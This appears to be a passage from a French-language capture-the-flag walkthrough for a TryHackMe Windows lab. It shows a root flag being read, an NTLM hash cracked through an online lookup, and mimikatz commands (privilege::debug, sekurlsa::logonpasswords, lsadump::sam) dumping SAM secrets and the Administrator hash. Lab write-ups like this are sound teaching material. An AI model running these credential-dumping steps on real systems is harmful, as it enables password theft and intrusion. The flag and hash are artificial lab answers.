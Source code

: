 ```ps1
Directory of C:\Users\Administrator\Desktop

11/27/2019  07:15 PM    <DIR>          .
11/27/2019  07:15 PM    <DIR>          ..
11/27/2019  07:15 PM                37 root.txt.txt
               1 File(s)             37 bytes
               2 Dir(s)  19,304,919,040 bytes free

C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```

##  Crack the hash

https://crackstation.net/

=> googleplus



# Alternatives



### mimikatz

https://github.com/gentilkiwi/mimikatz

Upload de mimikatz sur le serveur

http://localhost/Win32/mimikatz.exe

Commencez par exécuter la commande suivante :

mimikatz # privilege::debug

La sortie vous indique si vous disposez des droits requis pour continuer.

Ensuite, lancez les fonctions de journalisation afin de pouvoir vous référer par la suite à ce que vous avez fait.

mimikatz # log mimi.log

Enfin, sortez tous les mots de passe en texte clair conservés sur cet ordinateur.

mimikatz # sekurlsa::logonpasswords

mimikatz # lsadump::sam
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 549a1bcb88e35dc18c7a0b0168631411
